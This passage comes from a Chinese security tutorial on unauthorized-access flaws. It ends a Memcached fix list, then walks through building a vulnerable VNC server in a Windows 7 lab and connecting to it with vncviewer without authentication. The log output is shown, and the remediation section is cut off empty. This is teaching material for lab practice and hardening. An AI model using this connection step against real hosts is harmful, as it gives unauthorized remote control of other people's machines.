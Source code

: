 ## 漏洞修复

1. 设置Memchached只允许本地访问。
2. 禁止外网访问Memcached 11211端口。
3. 配置访问控制策略。
4. 最小化权限运行。
5. 修改默认端口等。

# VNC 未授权访问

VNC 是虚拟网络控制台Virtual Network  Console的英文缩写。它是一款优秀的远程控制工具软件由美国电话电报公司AT&T的欧洲研究实验室开发。VNC是基于 UNXI 和  Linux 的免费开源软件由 VNC Server 和 VNC Viewer 两部分组成。VNC 默认端口号为 5900、5901。VNC  未授权访问漏洞如被利用可能造成恶意用户直接控制target主机。

## 环境搭建

在Windows7中下载[安装程序](https://objects.githubusercontent.com/github-production-release-asset-2e65be/455650170/ff0c1a0c-e311-4ca6-8464-4018dfc3b1c0?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20220408%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20220408T071424Z&X-Amz-Expires=300&X-Amz-Signature=2c94804e23fbf5881e4bb477ccb222ecf8bdde3131c49bdc83d921ee1f60ff81&X-Amz-SignedHeaders=host&actor_id=51915181&key_id=0&repo_id=455650170&response-content-disposition=attachment%3B%20filename%3Dvnc-4_1_3-x86_win32.exe&response-content-type=application%2Foctet-stream)。运行安装，一直下一步即可

![img](https://xzfile.aliyuncs.com/media/upload/picture/20190828090606-032d6a58-c930-1.jpg)


找到VNC Server程式的位置(通常是C:\Program  Files\RealVNC\VNC4），右鍵winvnc4.exe属性->兼容性->勾選以相容模式執行這個程式，選擇不是Windows 7的其他選項。最後，重新啟動VNC Server就可以連接了


## 漏洞利用

为了方便测试这里将防火墙关闭

```bash
root@kali:~# vncviewer 192.168.211.140
Connected to RFB server, using protocol version 3.8
No authentication needed
Authentication successful
Desktop name "ROOT-PC"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
```

## 漏洞修复
